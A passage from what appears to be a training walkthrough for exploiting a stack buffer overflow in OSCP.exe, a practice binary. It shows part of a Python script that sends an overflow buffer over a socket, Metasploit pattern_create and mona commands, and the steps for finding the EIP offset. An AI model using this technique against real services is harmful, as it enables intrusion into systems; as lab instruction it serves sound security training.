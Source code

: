 ```python
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
{% endtab %}
{% endtabs %}

Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the -l value to this):

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```

![](<../.gitbook/assets/image (1548).png>)

Place the generated value into the payload variable in the `exploit.py` file.

![](<../.gitbook/assets/image (1549).png>)

Reopen the `OSCP.exe` file in Immunity Debugger and run. Then run the `exploit.py` file. This will crash the application. We can then run the following command in the Immunity debugger command box. The distance value must match the value we used to create the cyclic value.

```
!mona findmsp -distance 2400
```

![](<../.gitbook/assets/image (1550).png>)

Mona should produce a log window where we need to view the value of the line `EIP contains normal pattern : ... (offset XXXX)`

![](<../.gitbook/assets/image (1551).png>)

Take note of the offset value. In the example below this value is 1978. Then open the `exploit.py` script and set the value of offset to the value produced by Mona which in this case is 1978. We can also set the 'retn' value to BBBB which converts to hex value of 42424242.

![](<../.gitbook/assets/image (1552).png>)

Again restart the OSCP.exe file in Immunity Debugger. Then run the `exploit.py` script again. For the value EIP you should see 42424242 which is BBBB as B has the hex value of '42'. This confirms a buffer overflow would theoretically work. Reset the payload string to an empty string again.
